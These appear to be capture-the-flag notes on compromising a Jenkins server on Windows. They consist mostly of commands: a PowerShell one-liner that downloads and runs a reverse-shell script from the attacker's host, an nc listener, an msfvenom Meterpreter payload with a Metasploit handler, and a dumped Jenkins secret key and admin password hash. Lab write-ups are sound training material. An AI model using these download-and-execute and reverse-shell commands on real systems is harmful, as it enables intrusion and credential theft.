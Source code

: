 
* run a server on attacking machine so the Jenskin can download the Invoke-PowerShellTcp.ps1
> python3 -m http.server 8000


Command to run  on Jenskin
	_powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_

* Run a listner on attacking machine:
> rlwrap nc -lnvp 5555

* userflag.txt
> 79007a09481963edf2e1321abd9ae2a0


* Create meterpreter shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

* Download the [SHELL NAME].exe from the attacking machine
> powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-ip:your-port/[SHELL NAME].exe',' shellname.exe')"

Set up hanlder in Metasploit
>use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

Reverse shell:

- C:\Program Files (x86)\Jenkins>
	Secret.key = cb2ae36e1862a23b3adfd393282eae76f896f2efb0a4da79643e33afc616751e

- C:\Program Files (x86)\Jenkins\users\admin_2402805306885826995/config.xml>
jbcrypt:$2a$10$mNcW44UpK2W/FfiniX6qfeIhqBnJqLQLw8MLaP/lTM1vmh.E6AGAS